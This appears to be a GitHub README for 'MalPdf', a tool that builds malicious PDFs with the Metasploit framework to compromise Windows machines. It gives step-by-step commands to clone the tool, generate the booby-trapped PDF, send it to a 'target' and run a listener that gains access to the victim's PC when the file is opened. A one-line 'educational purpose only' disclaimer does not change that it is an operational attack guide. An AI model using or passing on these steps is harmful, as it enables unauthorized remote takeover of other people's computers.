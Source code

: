 # MalPdf

This is an easy to setup malicious pdf generator which uses metasploit framework.

##This works only with Linux and Termus app##

This can exploit only windows
Requirements:
      1Gb data
      1Gb storage space

#This is not for exploiting other's PCs and this is for educational purpose only
First start your command prompt or power shell

Type the command:

$apt install git

$git clone https://github.com/Nicko15/MalPdf.git

$cd MalPdf


Now run the 'setup.sh' file by typing:

$./setup.sh

All the needed packages and frameworks will be downloaded

Now to create malicious pdf and use, run the 'create.sh'file by typing:

$sudo bash create.sh

 You will get a file path and you can shere the file to your target

To listen to the pdf, type:

$sudo bash listen.sh
$set LHOST <your_ip>
$run

Now your pc will start listening. As soon as your target opens the pdf, you will get access over his pc
